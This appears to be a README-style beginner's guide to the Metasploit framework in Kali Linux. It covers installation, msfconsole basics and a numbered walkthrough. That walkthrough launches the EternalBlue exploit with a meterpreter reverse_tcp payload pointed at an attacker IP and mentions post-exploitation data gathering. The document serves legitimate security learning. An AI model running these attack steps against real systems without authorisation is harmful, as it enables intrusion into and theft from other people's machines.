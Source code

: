 # Metasploit-

## Metasploit in Kali Linux: A Beginner's Guide

**Welcome, young Padawan!** Metasploit, pre-installed in Kali Linux, is a powerful **penetration testing framework** used by security professionals and enthusiasts alike. But for beginners, it can be daunting. Fear not, this guide will break it down into bite-sized pieces.

**What is Metasploit?**

Imagine a toolbox for digital detectives. Metasploit provides **exploits**, which are like lockpicks for vulnerabilities in software and systems. It also offers tools for **reconnaissance**, **scanning**, and **post-exploitation**, like picking the lock, exploring the house, and leaving a calling card.

**Why use Metasploit in Kali Linux?**

Kali Linux is a pre-configured distribution packed with security tools, and Metasploit is its crown jewel. It's **versatile**, working against various operating systems and applications. It's **easy to use**, with intuitive interfaces like `msfconsole` and web interfaces. And it's **open-source**, constantly evolving with new exploits and tools.

**Getting Started:**

1. **Open a terminal:** This is your command center.
2. **Start Metasploit:** Type `msfconsole` and hit Enter.
3. **Explore the commands:** Use `help` and `info` to learn about commands and modules.
4. **Search for exploits:** Use `search` with keywords like "windows" or "web".
5. **Learn the basics:** Practice using `show`, `use`, and `run` to explore and launch exploits.

**Important Tips:**

* **Always practice responsibly:** Only use Metasploit on authorized targets and for ethical purposes.
* **Start with safe environments:** Practice on virtual machines or dedicated testing environments.
* **Understand the risks:** Exploits can be complex and have unintended consequences.
* **Learn the theory:** Build a strong foundation in security concepts before diving into exploits.

**Resources:**

* **Official Metasploit documentation:** [https://docs.rapid7.com/metasploit/msf-overview](https://docs.rapid7.com/metasploit/msf-overview)
* **Kali Linux documentation:** [https://www.kali.org/docs/](https://www.kali.org/docs/)
* **Metasploit Beginner Tutorials:** [https://www.youtube.com/watch?v=tp-x0OHpmKc](https://www.youtube.com/watch?v=tp-x0OHpmKc)

**Remember:** Metasploit is a powerful tool. Use it responsibly, ethically, and with a thirst for knowledge. Soon, you'll be navigating the digital landscape like a seasoned security expert!

**Happy hacking (safely)!**

<h4>How To Use Metasploit In Kali Linux</h4>

Here's a step-by-step guide on how to use Metasploit in Kali Linux,

1. 📥 Install Kali Linux: First, make sure you have Kali Linux installed on your system. You can download it from the official website.

2. 🐞 Set Up Metasploit: Open the terminal and update the system by running the command:
   `sudo apt-get update`

   Then, install Metasploit by running:
   `sudo apt-get install metasploit-framework`

3. 📡 Launch Metasploit: Once installed, open the terminal and launch Metasploit by running:
   `msfconsole`

4. 🔎 Search for Exploits: To search for available exploits, use the command:
   `search <exploit>`
   For example, `search eternalblue`

5. ℹ️ Gathering Information: Use various commands such as `info` and `options` to get more information about a specific exploit.

6. ⚙️ Configure Exploit: To set the options for a specific exploit, use the command:
   `use <exploit>`
   For example, `use exploit/windows/smb/ms17_010_eternalblue`

7. 🛠️ Set Payload: Set the payload by using the command:
   `set payload <payload>`
   For example, `set payload windows/meterpreter/reverse_tcp`

8. 🎣 Set Exploit Options: Configure the exploit options using the `set` command. For example:
   `set RHOST <target IP>`
   `set LHOST <attacker IP>`

9. ▶️ Exploit: Once all the options are set, run the exploit using the `exploit` command.

10. 🕵️ Post-Exploitation: After successfully exploiting, you can perform various post-exploitation activities, such as gathering sensitive information or running additional commands on the target system.

Remember to use Metasploit responsibly and only on systems you have explicit permission to test. Happy hacking! 💻🔐🚫
